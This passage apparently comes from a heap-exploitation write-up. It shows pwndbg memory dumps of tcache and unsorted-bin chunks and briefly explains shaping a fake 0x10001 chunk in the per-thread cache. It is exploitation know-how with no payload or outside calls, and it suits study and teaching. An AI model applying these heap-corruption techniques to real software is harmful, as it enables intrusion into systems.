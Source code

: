 ```
0x55692f69eaf0	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb00	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb10	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb20	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb30	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb40	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb50	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb60	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb70	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eb80	0x3131313131313131	0x0000000000000021	11111111!.......
0x55692f69eb90	0x000000055692f69e	0x4484565b2543af74	...V....t.C%[V.D <-- tcachebins[0x20][0/1]
0x55692f69eba0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1

[...]

0x55692f69ecc0	0x0000000000000000	0x00000000000001b1	................
0x55692f69ecd0	0x000000055692f69e	0x4484565b2543af74	...V....t.C%[V.D <-- tcachebins[0x1b0][1/2]
0x55692f69ece0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ecf0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed00	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed10	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed20	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed30	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed40	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed50	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed60	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed70	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed80	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ed90	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69eda0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69edb0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69edc0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69edd0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55692f69ede0	0x3232323232323232	0x0000000000000031	222222221.......
0x55692f69edf0	0x000000055692f69e	0x4484565b2543af74	...V....t.C%[V.D <-- tcachebins[0x30][0/1]
0x55692f69ee00	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2

[...]

0x55692f69ef00	0x3244324432443244	0x0000000000000021	D2D2D2D2!.......
0x55692f69ef10	0x0033204452415547	0x0000000000000000	GUARD 3.........

```

We now have a t-cache entry inside of both unsorted bin entries.

Looking at the `per-thread cache`, our faked `0x10001` chunk is starting to take shape:
```
pwndbg> vis 0
[...]
0x55692f69d070	0x0000000000000000	0x0000000000000000	................
0x55692f69d080	0x0000000000000000	0x0000000000010001	................
0x55692f69d090	0x000055692f69eb90	0x000055692f69edf0	..i/iU....i/iU..
0x55692f69d0a0	0x0000000000000000	0x0000000000000000	................
[...]
```
